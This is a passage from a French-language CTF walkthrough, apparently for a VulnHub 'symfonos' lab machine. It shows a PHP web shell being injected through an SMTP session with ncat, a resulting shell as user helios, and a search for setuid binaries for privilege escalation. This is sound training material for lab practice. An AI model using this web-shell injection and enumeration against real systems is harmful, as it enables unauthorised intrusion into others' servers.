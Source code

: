 L'idée m'est venue de déclencher la réinitialisation du mot de passe Wordpress et d'aller récupérer le lien pour changer le mot de passe mais le compte semble avoir été enregistré avec une adresse invalide (`helios@blah.com`) par conséquent ce n'est pas possible.

A la place je vais envoyer un mail à `Helios` tout comme j'avais procédé sur le [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md) :

```shellsession
$ ncat 192.168.56.112 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.112:25.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
HELO symfonos.localdomain
250 symfonos.localdomain
MAIL FROM: yolo@yolo.tld
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<pre><?php system($_GET["cmd"]); ?></pre>
.
250 2.0.0 Ok: queued as 3689B406AE
QUIT
221 2.0.0 Bye
```

On obtient un shell en tant que `helios`. Apache tourne effectivement avec cet utilisateur :

`helios    2106  7.6  2.7 272524 28296 ?        S    02:39   7:38 /usr/sbin/apache2 -k start`

## Hammer Time

Une énumération des binaires setuid remonte un fichier inhabituel :

```shellsession
helios@symfonos:~$ find / -type f -perm -u+s -ls 2> /dev/null 
   525788     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   529794     44 -rwsr-xr--   1 root     messagebus    42992 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   403969    432 -rwsr-xr-x   1 root     root         440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
   393297     60 -rwsr-xr-x   1 root     root          59680 May 17  2017 /usr/bin/passwd
   393296     76 -rwsr-xr-x   1 root     root          75792 May 17  2017 /usr/bin/gpasswd
   396158     40 -rwsr-xr-x   1 root     root          40312 May 17  2017 /usr/bin/newgrp
   393294     40 -rwsr-xr-x   1 root     root          40504 May 17  2017 /usr/bin/chsh
   393293     52 -rwsr-xr-x   1 root     root          50040 May 17  2017 /usr/bin/chfn
   131108     12 -rwsr-xr-x   1 root     root           8640 Jun 28  2019 /opt/statuscheck
   655404     44 -rwsr-xr-x   1 root     root          44304 Mar  7  2018 /bin/mount
   655405     32 -rwsr-xr-x   1 root     root          31720 Mar  7  2018 /bin/umount
   655402     40 -rwsr-xr-x   1 root     root          40536 May 17  2017 /bin/su
   655427     60 -rwsr-xr-x   1 root     root          61240 Nov 10  2016 /bin/ping
```
